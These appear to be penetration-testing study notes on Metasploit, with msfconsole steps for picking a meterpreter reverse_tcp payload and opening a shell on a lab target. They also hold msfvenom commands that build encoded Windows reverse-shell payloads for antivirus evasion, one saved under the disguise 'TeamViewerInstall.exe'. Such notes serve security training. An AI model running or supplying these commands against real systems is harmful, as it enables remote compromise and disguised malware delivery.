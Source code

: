   ```shell
  # in msfconsole

  show payloads
  # lists all payloads
  # if exploit module selected, lesser payloads will be shown

  # search for payloads
  grep meterpreter show payloads
  
  grep meterpreter grep reverse_tcp show payloads

  set payload 2
  # based on index, it selects payload

  show options
  # view parameters for payload

  ifconfig
  # view LHOST IP address

  set LHOST 10.10.14.15
  set RHOSTS 10.10.10.40

  run
  # gives meterpreter shell

  help
  # shows all commands in meterpreter shell

  shell
  # creates channel and gives command prompt
  ```

## Encoders

* Encoders are used to make payloads compatible with different processor architectures (x64, x86, sparc, ppc & mips), and used for AV evasion too; they are also used to remove hexadecimal opcodes (aka bad characters) from payload.

* SGN (Shikata Ga Nai) is one of the more popular encoding schemes.

  ```shell
  # generating payload without encoding
  msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl

  # generating payload with encoding
  msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai

  # generating payload with multiple iterations of same encoding scheme
  msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe

  # we can use msf-virustotal to analyze payloads
  ```

